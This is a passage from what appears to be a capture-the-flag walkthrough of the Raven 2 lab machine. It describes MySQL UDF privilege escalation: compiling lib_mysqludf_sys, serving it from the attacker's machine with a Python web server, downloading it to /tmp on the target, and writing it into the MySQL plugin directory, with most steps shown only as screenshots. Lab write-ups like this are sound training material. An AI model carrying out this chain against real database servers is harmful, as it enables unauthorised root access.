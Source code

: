 On your attacking machine, use the following command to compile `lib_mysqludf_sys`:

```
# gcc -Wall -I/usr/include/mysql -shared -o lib_mysqludf_sys.so lib_mysqludf_sys.c
```

Host the file with Python's `SimpleHTTPServer` module like so.

```
# python -m SimpleHTTPServer 80
```

On the shell, download the UDF library to `/tmp`.

<a class="image-popup">
![d9131786.png](/assets/images/posts/raven-2-walkthrough/d9131786.png)
</a>

Log in to the MySQL database `mysql`.

<a class="image-popup">
![afa49e18.png](/assets/images/posts/raven-2-walkthrough/afa49e18.png)
</a>

First, we need to load the library into a table and then dump it to the MySQL plugins directory `/usr/lib/mysql/plugin` as specified in the command-line shown above.

<a class="image-popup">
![31d47c89.png](/assets/images/posts/raven-2-walkthrough/31d47c89.png)
</a>
